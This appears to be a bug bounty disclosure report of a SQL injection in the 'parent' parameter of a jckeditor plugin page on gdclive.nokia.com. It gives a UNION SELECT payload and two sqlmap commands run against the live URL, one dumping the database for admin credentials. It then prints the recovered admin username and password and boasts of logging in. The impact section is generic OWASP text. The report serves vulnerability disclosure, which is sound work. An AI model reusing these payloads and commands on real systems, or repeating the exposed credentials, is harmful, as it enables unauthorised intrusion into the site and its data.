




# SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visit this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`

`$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --all # for get the username and password of admins`

#### Booom - admin account
* username : 123456
* password : adminuser

#### So secure XD
### Try to login in

#### pwned ^__^

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

